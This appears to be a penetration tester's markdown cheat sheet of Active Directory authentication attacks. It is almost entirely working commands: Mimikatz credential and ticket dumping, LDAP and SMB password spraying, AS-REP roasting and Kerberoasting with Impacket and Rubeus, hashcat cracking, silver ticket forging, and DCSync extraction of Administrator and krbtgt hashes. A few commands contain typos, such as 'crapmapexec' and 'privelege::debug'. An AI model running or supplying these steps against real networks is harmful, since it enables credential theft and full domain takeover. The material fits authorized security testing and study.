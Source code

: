 # AD authentication attacks

## Cached creds

https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf

With the `SeDebugPrivilege` privilege:
```
PS > .\mimikatz.exe
m $ privelege::debug
m $ sekurlsa::logonpasswords
PS2 > dir \\some_other_host\smb\some_share # in another terminal
m $ sekurlsa::tickets
```

## Authentication attacks

### Passwords

#### Lockout

Lockout threshold for password attacks:
```
net accounts
```

#### LDAP password attack using AD authentication - Principle

LDAP query with user and password authentication:
```
# Building the query
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$pdc = ($domainObj.PdcRoleOwner).Name
$searchString = "LDAP://"
$searchString += $pdc + "/"
$distinguishedName = "DC=$($domainObj.Name.Replace('.',',DC='))"
$searchString += $distinguishedName

# Authentication attack
New-Object System.DirectoryServices.DirectoryEntry($searchString, "someuser", "somepass")
```

#### LDAP spray password attack - "Spray-passwords" script 

Spray-passwords on GitHub: https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
```
PS > powershell -ep bypass
PS > .\Spray-Passwords.ps1 -Pass somepass -Admin
```

#### SMB attacks - crackmapexec

CrackMapExec GitHub: https://github.com/Porchetta-Industries/CrackMapExec

```
kali $ vi userstohack.txt
kali $ crapmapexec smb $targetIp -u userstoattack.txt -p 'somepassword' -d targetorganisation.com --continue-on-success
kali $ crapmapexec smb $targetIpRange.1-254 -u user -p 'password' -d targetorganisation.com --continue-on-success
```
Warning: can lock users out

#### Kerbrute

Kerbrute on GitHub: 
- https://github.com/ropnop/kerbrute
- https://github.com/ropnop/kerbrute/releases

```
PS > type userstohack.txt
PS > .\kerbrute_windows_amd64.exe passwordspray -d targetorg.com .\userstohack.txt 'somepassword'
```

### AS-REQ Roasting

Takes __Do not require Kerberos preauthentication__ to be enabled (disabled by default).

#### From Linux with Impacket-GetNPUsers

Impacket-GetNPUsers on GitHub: https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
$ impacket-GetNPUsers -dc-ip $TargetDcIp -request -outputfile hashes_as-rep_to_roast.txt organisation.com/any_user
$ hashcat --help | grep -i 'kerberos' # look for "AS-REP" in this case
$ hashcat -m 18200 hashes_as-rep_to_roast.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### From Windows with Rubeus

```
c:\path\to\rubeus.exe asreproast /nowrap
```
and `hashcat` back again:
```
hashcat -m 18200 hashes_as-rep_to_roast_from_windows.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### From Windows with Rubeus

Rubeus on GitHub: https://github.com/GhostPack/Rubeus
```
PS > .\Rubeus.exe asreproast /nowrap
```
Copy the hash and crack it on Kali with `hashcat`:
```
sudo hashcat -m 18200 hashes_retrieved_with_Rubeus_on_Windows /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### Users to AS-REQ roast

To get only the users with option `Do not require Kerberos preauthentication` enabled on Linux:
```
$ impacket-GetNPUsers -dc-ip $TargetDcIp # No options
```
and on Windows:
```
Import-Module c:\path\to\powerview.ps1
Get-DomainUser -PreauthNotRequired
```

### Kerberoasting - TGS-REP on SPN

#### With Impacket-GetUserSPNs

Impacket-GetUserSPNs on GitHub: https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py
```
$ impacket-GetUserSPNs -request -dc-ip $TargetDomainControlerIp organisation.com/someuser
$ hashcat --help | grep -i kerberos
$ hashcat -m 13100 spn_hash_to_hack.txt /usr/share/wordlist/rockyou.txt -r myrulefile.rule --force
```

#### With Rubeus

```
PS c:\path\to\rubeus> .\Rubeus.exe kerberoast /outfile:spn_hash_to_hack.txt
```
and crack it with `hashcat`. With `GenericWrite` or `GenericAll` permissions on another AD user: 
- https://adsecurity.org/?p=3658 (to avoid)
- https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)

### Silver ticket

Takes Privileged Account Certificate (PAC) not to be enabled (usual): https://adsecurity.org/?p=2011
```
PS > iwr -UseDefaultCredentials http://internalwebsite # access denied
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords # get the webserver's service NTLM hash
PS > whoami /user # get the domain SID: S-1-5-21-xtake-ytake-ztake-donottaketheuserRID
mimikatz # kerberos::golden /sid:domainsid /domain:organisation.com /ptt /target:internalwebsite.organisation.com /service:http /rc4:ntlmhash /user:anyuser
mimikatz # exit
PS > klist
PS > iwr -UseDefaultCredentials http://internalwebsite # access granted
```

### Domain Controler Sync

Needs:
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered

which are provided by:
- Domain Admins
- Enterprise Admins
- Administrators (NOT local admins)

DCSync attack details: https://adsecurity.org/?p=2398#MimikatzDCSync \
Impacket-Secretsdump on GitHub: https://github.com/fortra/impacket/blob/master/examples/secretsdump.py

#### From Linux

```
impacket-secretsdump -just-dc-user someuser organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
hashcat -m 1000 ntlm_hash_from_impacket-secretsdump /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

impacket-secretsdump -just-dc-user Administrator organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
impacket-secretsdump -just-dc-user krbtgt organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
```

#### From Windows

From a local admin account (for example):
```
PS > c:\path\to\mimikatz.exe
mimikatz # lsadump::dcsync /user:mydomainname\target_username
$ hashcat -m 1000 ntlm_hash_from_mimikatz /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

mimikatz # lsadump::dcsync /user:mydomainname\Administrator
mimikatz # lsadump::dcsync /user:mydomainname\krbtgt
```



